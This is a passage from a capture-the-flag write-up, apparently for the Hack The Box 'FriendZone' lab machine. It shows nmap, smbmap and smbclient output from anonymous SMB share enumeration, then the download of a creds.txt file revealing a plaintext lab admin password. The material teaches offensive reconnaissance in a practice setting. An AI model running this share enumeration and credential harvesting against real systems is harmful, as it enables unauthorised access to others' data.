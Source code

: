 ```
|   \\10.10.10.123\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 2.82 seconds
```

Listing files from the share:

```
# smbmap -H 10.10.10.123 -r
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445	Name: friendzone.htb                                    
	Disk                                                  	Permissions
	----                                                  	-----------
	print$                                            	NO ACCESS
	Files                                             	NO ACCESS
	general                                           	READ ONLY
	./                                                 
	dr--r--r--                0 Wed Jan 16 15:10:51 2019	.
	dr--r--r--                0 Wed Jan 23 16:51:02 2019	..
	fr--r--r--               57 Tue Oct  9 19:52:42 2018	creds.txt
	Development                                       	READ, WRITE
	./                                                 
	dr--r--r--                0 Sat Feb  9 15:50:02 2019	.
	dr--r--r--                0 Wed Jan 23 16:51:02 2019	..
	IPC$                                              	NO ACCESS
```

`creds.txt` looks interesting:

```
# smbclient -U "" //10.10.10.123/general

Enter HTB\'s password: 
Try "help" to get a list of possible commands.
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (1.6 KiloBytes/sec) (average 1.6 KiloBytes/sec)
smb: \> exit
root@ragingunicorn:~/htb/friendzone# cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Found some credentials: `admin` / `WORKWORKHhallelujah@#`

### Sub-domains enumeration
